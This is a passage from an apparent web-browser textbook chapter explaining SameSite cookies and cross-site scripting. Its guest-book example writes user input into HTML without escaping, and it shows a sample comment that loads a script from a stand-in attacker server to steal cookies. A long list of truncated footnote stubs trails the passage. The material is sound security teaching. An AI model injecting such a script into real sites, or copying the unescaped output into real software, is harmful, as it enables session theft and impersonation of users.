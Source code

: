 ::: {.further}
The web was not initially designed around security, which has led to
some [awkward patches][patches] after the fact. These patches may be
ugly, but a dedication to backward compatibility is a strength of the
web, and at least newer APIs can be designed around more consistent
policies.

To this end, while there is a full specification for `SameSite`, it is still the
case that real browsers support different subsets of the feature or different
defaults. For example, Chrome defaults to `Lax`, but Firefox and Safari do not.
Likewise, Chrome uses the scheme (`https` or `http`) as part of the definition
of a "site",^[This is called "schemeful same-site".] but other browsers may not.
The main reason for this situation is the need to maintain backward
compatibility with existing websites.
:::

[patches]: https://jakearchibald.com/2021/cors/

Cross-site scripting
====================

Now other websites can't misuse our browser's cookies to read or write
private data. This seems secure! But what about *our own* website?
With cookies accessible from JavaScript, any scripts run on our browser
could, in principle, read the cookie value. This might seem
benign---doesn't our browser only run `comment.js`? But in fact...

A web service needs to defend itself from being *misused*. Consider
the code in our guest book that outputs guest book entries:

``` {.python file=server indent=8 replace=entry/html.escape(entry),who/html.escape(who)}
out += "<p>" + entry + "\n"
out += "<i>by " + who + "</i></p>"
```

Note that `entry` can be anything, including anything the user might
stick into our comment form. That includes HTML tags, like a custom
`<script>` tag! So, a malicious user could post this comment:

::: {.example}
    Hi! <script src="http://my-server/evil.js"></script>
:::

The server would then output this HTML:

::: {.example}
    <p>Hi! <script src="http://my-server/evil.js"></script>
    <i>by crashoverride</i></p>
:::

Every user's browser would then download and run the `evil.js` script,
which can send[^document-cookie] the cookies
to the attacker. The attacker could then impersonate other users,
posting as them or misusing any other capabilities those users had.

[^document-cookie]: A site's cookies and cookie parameters are
    available to scripts running on that site through the
    [`document.cookie`][mdn-doc-cookie] API. See Exercise 10-5
    for more details on how web servers can *opt in* to allowing
    cross-origin requests. To steal cookies, it's the attacker's
    server that would to opt in to receiving stolen cookies. Or, in a
    real browser, `evil.js` could add images or scripts to the page to
    trigger additional requests. In our limited browser the attack has to
    be a little clunkier, but the evil script can still, for example,
    replace the whole page with a link that goes to their site and
    includes the token value in the URL. You've seen "please click to
    continue" screens and have clicked through unthinkingly; your users
    will too.
    

[^fingerprinting]: I don't mean anonymous against malicious attackers,
[^secure-random]: This `random.random` call returns a decimal number
[^cookies-limited]: Browsers and servers both limit header lengths, so
[netscape-spec]: https://curl.se/rfc/cookie_spec.html
[wiki-magic-cookie]: https://en.wikipedia.org/wiki/Magic_cookie
[x-cookie]: https://en.wikipedia.org/wiki/X_Window_authorization#Cookie-based_access
[^password-input]: I've given the `password` input area the type
[^timing-attack]: Actually, using `==` to compare passwords like this
[timing-attack]: https://en.wikipedia.org/wiki/Timing_attack
[constant-time]: https://www.chosenplaintext.ca/articles/beginners-guide-constant-time-cryptography.html
[^hackers-movie]: The pre-loaded comments reference 1995's *Hackers*.
[^insecurities]: The insecurities include not hashing passwords, not
[bcrypt]: https://auth0.com/blog/hashing-in-action-understanding-bcrypt/
[client-certs]: https://aboutssl.org/ssl-tls-client-authentication-how-does-it-works/
[http-auth]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Authentication
[^silly-name]: Because once you have one silly name it's important to
[^multiple-resources]: Moreover, since `request` can be called multiple
[^multiple-set-cookies]: A server can actually send multiple
[rfc-2965]: https://datatracker.ietf.org/doc/html/rfc2965
[rfc-6265]: https://datatracker.ietf.org/doc/html/rfc6265
[^tls]: Well... Our connection isn't encrypted, so an attacker could
[^weird-name]: It's a weird name! Why is `XML` capitalized but not
[xhr-history]: https://en.wikipedia.org/wiki/XMLHttpRequest#History
[^obsolete]: Synchronous `XMLHttpRequest`s are slowly moving through
[xhr-open]: https://xhr.spec.whatwg.org/#the-open()-method
[^more-options]: `XMLHttpRequest` has more options not implemented
[^even-more-options]: As above, this implementation skips important
[^note-method]: Note that the `method` argument is ignored, because
[mdn-fetch]: https://developer.mozilla.org/en-US/docs/Web/API/fetch
[xhr-grh]: https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/getResponseHeader
[xhr-srh]: https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/setRequestHeader
[bad-req-headers]: https://developer.mozilla.org/en-US/docs/Glossary/Forbidden_header_name
[bad-resp-headers]: https://developer.mozilla.org/en-US/docs/Glossary/Forbidden_response_header_name
[^why-visit-attackers]: Why is the user on the attacker's site?
[same-origin-mdn]: https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
[^and-some-others]: Some kinds of request are not subject to the
[^not-cookies]: You may have noticed that this is not the same
[mdn-drawimage]: https://developer.mozilla.org/en-US/docs/Web/API/CanvasRenderingContext2D/drawImage
[mdn-getimagedata]: https://developer.mozilla.org/en-US/docs/Web/API/CanvasRenderingContext2D/getImageData
[tainted]: https://developer.mozilla.org/en-US/docs/Web/HTML/CORS_enabled_image
[^further-disguise]: Even worse, the form submission could be
[^google-search]: For example, many search forms on websites submit to
[^per-user]: It's important that nonces are associated with the
[^like-cookie]: Note the similarity to cookies, except that instead of
[^hidden]: Usually `<input type=hidden>` is invisible, though our
[^multi-nonce]: In real websites it's usually best to allow one user
[clickjacking]: https://owasp.org/www-community/attacks/Clickjacking
[x-frame-options]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
[csp-frame-ancestors]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors
[^in-progress]: At the time of writing the `SameSite` cookie
[mdn-samesite]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite
[^iow-links]: Cross-site `GET` requests are also known as "clicking a
[^not-referrer]: The "referrer" is the web page that "referred" our
[samesite-def]: https://datatracker.ietf.org/doc/html/draft-ietf-httpbis-cookie-same-site-00#section-2.1
[^schemeful]: As I write this, some browsers also check that the new
[origin-bound-cookies]: https://github.com/sbingler/Origin-Bound-Cookies
[mdn-doc-cookie]: https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie
[^ch1-ex]: You may have implemented this in Exercise 1-5.
[corb]: https://chromium.googlesource.com/chromium/src/+/refs/heads/main/services/network/cross_origin_read_blocking_explainer.md
[json-hijack]: https://owasp.org/www-pdf-archive/OWASPLondon20161124_JSON_Hijacking_Gareth_Heyes.pdf
[^more-complex]: In real browsers `Content-Security-Policy` can also
[^raise-error]: Note that when loading styles and scripts, our browser
[^evil-js]: Needless to say, `example.com` does not actually host an
[report-to]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-to
[report-only]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy-Report-Only
[std-httponly]: https://datatracker.ietf.org/doc/html/rfc6265#section-5.3
[cors]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
[^referer]: Yep, [spelled that way][wiki-typo].
[wiki-typo]: https://en.wikipedia.org/wiki/HTTP_referer#Etymology